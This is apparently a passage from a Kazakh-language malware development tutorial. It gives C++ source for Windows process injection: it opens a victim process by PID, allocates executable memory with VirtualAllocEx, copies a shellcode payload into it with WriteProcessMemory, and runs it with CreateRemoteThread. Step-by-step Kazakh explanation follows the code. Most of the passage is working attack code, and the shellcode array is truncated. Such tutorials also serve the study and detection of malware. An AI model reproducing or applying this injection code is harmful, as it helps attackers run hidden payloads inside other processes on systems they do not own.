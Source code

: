 ```cpp
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Алдымен сіз процестің `PID` кодын алуыңыз керек, біздің жағдайда бұл `PID`-ті өзіңіз енгізе аласыз. Содан кейін процесті `Kernel32` кітапханасы қамтамасыз ететін [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) функциясымен "ашыңыз":   

![open process](./images/6/2021-09-19_00-16.png){width="75%"}

Әрі қарай құрбан процесс үшін жад буферін бөлуге мүмкіндік беретін `VirtualAllocEx` функциясын қолданамыз **(1)**:

![injection 5](./images/6/2021-09-19_00-31.png){width="75%"}
